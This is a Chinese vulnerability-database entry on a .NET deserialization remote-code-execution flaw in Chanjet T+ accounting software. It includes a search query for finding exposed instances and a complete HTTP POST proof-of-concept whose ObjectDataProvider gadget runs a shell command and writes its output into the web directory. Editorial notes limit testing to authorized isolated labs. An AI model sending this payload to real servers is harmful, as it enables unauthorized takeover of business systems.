



# 畅捷通T+ _PriorityLevel反序列化远程代码执行

## 条目说明

- 对象与具体问题：畅捷通T+；_PriorityLevel反序列化RCE
- 版本、配置及部署条件：硬编码Windows短路径依赖；版本未知
- 认证与权限前提：无Cookie样例
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 写入长随机txt与回读xxx.txt不对应，部署目录不可泛化
- Host空、无修复版本；不要按方法名把214不同控制器自动并同漏洞

## 操作风险

命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

### 漏洞描述

用友 畅捷通T+ GetStoreWarehouseByStore 存在 .net反序列化漏洞，导致远程命令执行，控制服务器

### 漏洞影响

用友 畅捷通T+

### 网络测绘

```
app="畅捷通-TPlus"
```

### 漏洞复现

登录页面



验证POC

```http
POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1847.137 Safari/4E423F
Connection: close
Content-Length: 668
X-Ajaxpro-Method: GetStoreWarehouseByStore
Accept-Encoding: gzip

{
  "storeID":{
    "__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
    "MethodName":"Start",
    "ObjectInstance":{
      "__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
      "StartInfo":{
        "__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
        "FileName":"cmd",
        "Arguments":"/c whoami > C:/Progra~2/Chanjet/TPlusStd/WebSite/2RUsL6jgx9sGX4GItQBcVfxarBM.txt"
      }
    }
  }
}
```

> 请求长度说明：原资料 Content-Length 为 668；保留原始标头；其数值未据实际请求体重新计算或验证。



```
/tplus/xxx.txt
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
